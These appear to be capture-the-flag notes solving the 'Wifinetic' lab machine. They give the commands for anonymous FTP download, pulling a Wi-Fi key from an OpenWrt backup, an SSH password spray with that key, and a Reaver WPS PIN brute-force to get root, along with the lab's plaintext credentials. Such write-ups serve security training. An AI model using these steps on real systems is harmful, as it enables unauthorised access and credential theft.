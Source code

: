 ## Wifinetic

| Name      | IP           | Difficulty | OS    |
| --------- | ------------ | ---------- | ----- |
| wifinetic | 10.10.11.247 | Easy       | Linux |

## NMAP

| HOST                         | PORT | PROTO | SERVICE | VERSION                 |
| ---------------------------- | ---- | ----- | ------- | ----------------------- |
| 10.10.11.247 (wifinetic.htb) | 21   | tcp   | vsftpd  | 3.0.3                   |
| 10.10.11.247 (wifinetic.htb) | 22   | tcp   | OpenSSH | 8.2p1 Ubuntu 4ubuntu0.9 |
| 10.10.11.247 (wifinetic.htb) | 53   | tcp   |         |                         |

## USERS

- HR Manager: samantha.wood93
- Wireless Network Admin: olivia.walker17
- netadmin:VeRyUniUqWiFIPasswrd1!
- root

## NOTES

- Anonymous FTP login allowed 
```
| -rw-r--r--    1 ftp      ftp          4434 Jul 31 11:03 MigrateOpenWrt.txt
| -rw-r--r--    1 ftp      ftp       2501210 Jul 31 11:03 ProjectGreatMigration.pdf
| -rw-r--r--    1 ftp      ftp         60857 Jul 31 11:03 ProjectOpenWRT.pdf 
| -rw-r--r--    1 ftp      ftp         40960 Sep 11 15:25 backup-OpenWrt-2023-07-26.tar
|_-rw-r--r--    1 ftp      ftp         52946 Jul 31 11:03 employees_wellness.pdf 
```
- Recursively download files from the FTP server `wget -r ftp://10.10.11.247/`
- Unzip the .tar file `tar -xvf backup-OpenWrt-2023-07-26.tar`
- Get network key `cat etc/config/wireless` SSID: `OpenWrt` Password: `VeRyUniUqWiFIPasswrd1!`
- Spray SSH with the wireless password and usernames gathered from the `.pdf` and `etc/passwd` files `cme ssh 10.10.11.247 -u users.txt -p 'VeRyUniUqWiFIPasswrd1!'`
- netadmin has shell access
- The user flag is in netadmin's home directory
- Reaver has network capability `/usr/bin/reaver = cap_net_raw+ep`
- Scan network interfaces `iwlist scan`
- wlan0 BSSID: `02:00:00:00:00:00`
- Find monitor interface `mon0` with `iwconfig`
- Use Reaver `reaver -i mon0 -b 02:00:00:00:00:00 -vv` to get the PIN: `12345670` and Password: `WhatIsRealAnDWhAtIsNot51121!`
- Login to `root` with the password
- The root flag is in the root user's home directory
